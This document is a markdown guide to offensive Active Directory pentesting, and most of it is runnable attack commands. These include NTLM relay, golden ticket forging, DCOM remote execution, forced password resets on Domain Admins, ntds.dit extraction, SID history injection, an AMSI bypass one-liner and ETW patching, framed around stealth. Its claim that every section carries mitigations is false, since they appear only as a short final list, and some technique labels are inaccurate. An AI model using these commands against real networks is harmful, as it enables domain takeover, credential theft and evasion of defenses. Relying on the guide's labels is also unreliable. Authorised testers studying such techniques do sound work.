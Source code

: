 # Advanced Active Directory Pentesting Guide

## Table of Contents
1. [Introduction](#introduction)  
2. [Reconnaissance](#reconnaissance)  
3. [Initial Access Techniques](#initial-access-techniques)  
4. [Post-Exploitation: Enumeration & Lateral Movement](#post-exploitation)  
5. [Privilege Escalation](#privilege-escalation)  
6. [Domain Dominance](#domain-dominance)  
7. [Persistence Techniques](#persistence)  
8. [Defense Evasion](#defense-evasion)  
9. [Tools Cheatsheet](#tools-cheatsheet)  
10. [Mitigations & Best Practices](#mitigations)  

---

## 1. Introduction <a name="introduction"></a>
Active Directory is a prime target for attackers due to its central role in enterprise authentication. This guide covers advanced offensive techniques beyond basic `NTLM relay` or `Pass-the-Hash`.

---

## 2. Reconnaissance <a name="reconnaissance"></a>
### Passive Recon
- **LDAP Anonymous Binds**: Check if `LDAP_SIGNING` or `LDAP_CHANNEL_BINDING` is misconfigured.
  ```powershell
  ldapsearch -x -H ldap://dc.example.com -D "" -w "" -b "DC=example,DC=com"
  ```
- **BloodHound++**: Custom queries for shadow admins, ACL abuse paths.

### Active Recon
- **PowerView Advanced Queries**:
  ```powershell
  Get-DomainUser -SPN | Where-Object { $_.ServicePrincipalName -like "*SQL*" }
  Get-DomainGPOUser -Identity "Domain Admins" | Select-Object GPODisplayName, UserName
  ```

---

## 3. Initial Access Techniques <a name="initial-access-techniques"></a>
### NTLM Relay Attacks (Modern)
- **Drop the MIC 2 (CVE-2019-1040)**: Bypass LDAP signing.
  ```bash
  ntlmrelayx.py --remove-mic --escalate-user -t ldap://dc01
  ```
- **Resource-Based Constrained Delegation (RBCD)**:
  ```powershell
  Set-ADComputer $target -PrincipalsAllowedToDelegateToAccount $attacker_computer$
  ```

### Credential Phishing
- **Evilginx2 + Office365 Templates**: Hosted phishing with reverse proxy.
- **SCF File Attacks**: `@%windir%\system32\calc.exe,1` in network shares.

---

## 4. Post-Exploitation <a name="post-exploitation"></a>
### Golden Ticket + Sleeper Cells
```bash
ticketer.py -nthash <krbtgt_ntlm> -domain-sid <SID> -domain corp.com Administrator
```
- **OPSEC**: Use low-privilege accounts for ticket requests.

### Lateral Movement via COM/DCOM
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.10.1.5"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c whoami", "7")
```

---

## 5. Privilege Escalation <a name="privilege-escalation"></a>
### ACL Abuse
- **ForceChangePassword on Domain Admins**:
  ```powershell
  Set-DomainUserPassword -Identity 'Domain Admin' -AccountPassword (ConvertTo-SecureString 'P@ssw0rd!' -AsPlainText -Force)
  ```
- **GenericWrite to RDP Access**:
  ```powershell
  Set-ADUser -Identity victim -Replace @{msTSAllowLogon=$true}
  ```

---

## 6. Domain Dominance <a name="domain-dominance"></a>
### DC Sync Without Admin
- **Abuse Backup Operators Group**:
  ```powershell
  robocopy \\dc01\c$\windows\ntds . ntds.dit /b
  ```

### Custom Malicious GPOs
- **Deploy Scheduled Task for Persistence**:
  ```powershell
  New-GPO -Name "Legit Update" | New-GPLink -Target "DC=corp,DC=com"
  ```

---

## 7. Persistence Techniques <a name="persistence"></a>
- **SID History Injection**:
  ```powershell
  Set-ADUser -Identity attacker -SIDHistory $(Get-DomainGroup -Identity "Enterprise Admins").objectsid
  ```
- **Shadow Principals**: Rarely monitored alternative to SID History.

---

## 8. Defense Evasion <a name="defense-evasion"></a>
- **AMSI Bypass via .NET Reflection**:
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
  ```
- **ETW Patching**:
  ```csharp
  PatchEtw(new byte[] { 0xC3 }); // Ret instruction
  ```

---

## 9. Tools Cheatsheet <a name="tools-cheatsheet"></a>
| Tool               | Purpose                          | Command Example                     |
|--------------------|----------------------------------|-------------------------------------|
| **Rubeus**         | Kerberos exploitation            | `Rubeus.exe asktgt /user:admin /rc4:<hash>` |
| **Impacket**       | Protocol exploitation            | `getST.py -spn cifs/dc01 -impersonate admin corp.com/user` |
| **Certify**        | AD CS attacks                    | `Certify.exe find /vulnerable`      |

---

## 10. Mitigations <a name="mitigations"></a>
- **Enable LDAP Signing/Channel Binding**
- **Restrict RBCD Permissions**
- **Monitor for Anomalous Ticket Requests**
- **Regular ACL Audits with BloodHound**


---

### Key Features of This Guide:
- **Beyond Basics**: Focuses on advanced techniques like RBCD, ETW patching.
- **OPSEC-Centric**: Includes stealth considerations.
- **Tool-Agnostic**: Covers concepts applicable to multiple tools.
- **Defensive Countermeasures**: Each section includes mitigation strategies.
